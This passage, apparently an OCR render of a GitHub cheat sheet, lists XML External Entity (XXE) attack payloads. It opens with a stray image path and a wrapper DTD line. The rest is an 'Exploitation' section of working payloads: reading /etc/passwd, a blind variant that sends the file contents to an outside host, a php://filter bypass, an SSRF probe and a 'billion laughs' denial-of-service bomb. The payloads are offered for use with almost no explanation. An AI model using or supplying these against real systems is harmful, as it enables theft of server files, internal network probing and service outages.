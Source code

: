 *   [ ] Inside the `wrapper.dtd` (the external DTD file)

    * Its purpose is just to wrap the variables(parameters) into

    ```xml
    <!ENTITY wrapper "%start;%file;%end;">
    ```

## **Exploitation**

**LFI Test**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
```

**Blind LFI test (when first case doesn't return anything)**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
```

**Access Control bypass (loading restricted resources - PHP example)**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
<foo><result>&ac;</result></foo>
```

**SSRF Test**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "<https://www.example.com/text.txt>">]><foo>&xxe;</foo>
```

**XEE (XML Entity Expansion - DOS)**

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
